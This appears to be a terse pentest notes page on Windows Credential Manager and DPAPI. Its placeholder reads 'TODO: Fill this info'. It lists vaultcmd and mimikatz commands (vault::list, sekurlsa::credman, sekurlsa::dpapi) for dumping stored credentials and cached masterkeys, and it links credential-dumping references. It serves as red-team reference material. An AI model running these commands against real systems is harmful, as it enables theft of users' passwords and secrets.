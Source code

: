 # Vault Manager

TODO: Fill this info

## List Vault

`C:\> vaultcmd /listcreds:"Windows Credentials" /all`

`mimikatz # vault::list`

## 01 - List Credentials Manager

`mimikatz # sekurlsa::credman`

## 02 - List Cached Masterkeys

`mimikatz # sekurlsa::dpapi`

---
## References

- [HackTricks: DPAPI - Extracting Passwords](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords)

- [Hacking Articles: Windows Credential Manager](https://www.hackingarticles.in/credential-dumping-windows-credential-manager/)

- [The Hacker Recipes: DPAPI Protected Secrets](https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets)

- [Pentestlab Blog: Dumping RDP Credentials](https://pentestlab.blog/2021/05/24/dumping-rdp-credentials/)